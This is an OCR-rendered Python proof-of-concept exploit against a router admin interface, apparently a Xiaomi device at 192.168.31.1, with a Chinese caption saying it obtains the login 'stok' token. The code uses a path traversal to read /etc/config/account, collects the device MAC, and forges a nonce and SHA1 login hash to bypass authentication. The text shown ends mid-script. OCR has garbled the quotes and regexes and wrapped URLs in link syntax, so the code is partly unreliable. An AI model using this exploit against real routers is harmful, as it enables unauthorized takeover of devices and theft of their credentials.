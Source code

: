 > 可以获取到登录的stok

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {“http”:“[http://127.0.0.1:8080](http://127.0.0.1:8080)”}

proxies = {}

def get_mac():

## get mac

r0 = requests.get(“[http://192.168.31.1/cgi-bin/luci/web](http://192.168.31.1/cgi-bin/luci/web)”, proxies=proxies)

mac = re.findall(r’deviceId = ‘(.*?)’’, r0.text)[0]

# print(mac)	

return mac

def get_account_str():

## read /etc/config/account

r1 = requests.get(“[http://192.168.31.1/api-third-party/download/extdisks../etc/config/account](http://192.168.31.1/api-third-party/download/extdisks../etc/config/account)”, proxies=proxies)

print(r1.text)

account_str = re.findall(r’admin’? ‘(.*)’’, r1.text)[0]

return account_str

def create_nonce(mac):

type_ = 0

deviceId = mac

time_ = int(time.time())

rand = random.randint(0,10000)

return “%d_%s_%d_%d”%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):

m = hashlib.sha1()

m.update((nonce + account_str).encode(‘utf-8’))

return m.hexdigest()

mac = get_mac()

```